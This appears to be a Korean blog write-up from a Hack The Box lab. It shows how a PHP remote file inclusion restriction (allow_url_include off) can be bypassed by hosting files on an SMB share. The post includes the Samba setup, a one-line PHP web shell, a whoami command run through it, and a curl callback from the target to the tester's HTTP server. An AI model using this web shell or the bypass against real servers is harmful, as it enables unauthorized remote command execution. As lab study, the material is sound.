 ```yaml
---
title: RFI PHP Application bypass Remote URL
categories: [Pentest, Web]
tags: [RFI, PHP, Web, Samba, SMB]
image:
    path: /assets/image_post/20240214193626.png
---
```


Hack the box 문제 풀이 중 RFI를 테스트 하다 아래와 같은 내용을 확인하였다.
![](../assets/image_post/20240212155715.png)

관련해서 내용을 찾아보니 php 구성 시 allow_url_include는 기본적으로 off 되어 원격 http 또는 ftp url을 로드하지 않도록 하여 공격을 방지한다. 
> Link: https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

하지만 allow_url_include와 allow_url_open가 모두 off로 설정 되어 있더라도 SMB URL 로드는 차단하지 않는다. PHP의 이러한 특징은 smb 공유를 통해 원격으로 php 웹쉘을 로드하는데 사용할 수 있다.


테스트를 위해 samba를 설치한다.
``` bash
# apt install samba
# smbpasswd -a 사용자이름
```

이후 공유하고자 하는 정보를 지정해야하며, 나의 경우 아래와 같이 `/etc/samba/smb.conf`의 맨 밑에 추가하였다. `systemctl restart smbd`를 통해 변경사항까지 반영해주어야 한다.
``` bash
[rfi]
   comment = rfi
   path = /home/user/rfi
   browseable = yes
   guest ok = yes
```

> NT_STATUS_ACCESS_DENIED 에러 해결: [링크](https://read-min.github.io/posts/linux-samba-install-NT_STATUS_ACCESS_DENIED/)


구성이 완료되었으니 실제 접근이 가능한지 테스트 해보자. 테스트 환경의 경우 [HTB Responder Write-up](https://read-min.github.io/posts/HTB-Responder-Write-up/) 에서 제공되는 서버이다. 우선 간단한 정보 조회 성 info.php를 만들어 공유 경로에 위치시킨다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat info.php
<?php phpinfo(); ?>
```

대상 서버에서 공유된 경로(ex://10.10.15.52/rfi/info.php)에 접근하도록 지정 시 아래와 같이 php info가 정상적으로 나타난다.
![](../assets/image_post/20240214192651.png)

이제 실제 oneline webshell을 통해 내부 구조를 파악해보자. 아래와 같이 설정 시 GET 메소드로 cmd 라는 변수를 통해 명령어를 입력 받고 실행한다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat rfi.php
<?php system($_GET['cmd']); ?>
```

대상 서버에서 rfi.php로 접근하며 인자로 whoami를 준 경우 아래와 같이 나타난다.
![](../assets/image_post/20240214194219.png)

조금 더 나아가 한줄웹쉘을 통해 http를 호출하는 코드도 가능하다. 아래와 같이 `cmd=curl {url}`을 입력할 경우 접근 되는 것을 확인 할 수 있다. 예시의 경우 python으로 간단한 http 서버를 띄우고 접근한 것이다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.94.209 - - [14/Feb/2024 05:44:41] "GET / HTTP/1.1" 200 -
```

![](../assets/image_post/20240214194630.png)

이와 같이 allow_url_include가 false더라도 samba를 통해 접근 가능하게 할 수 있다.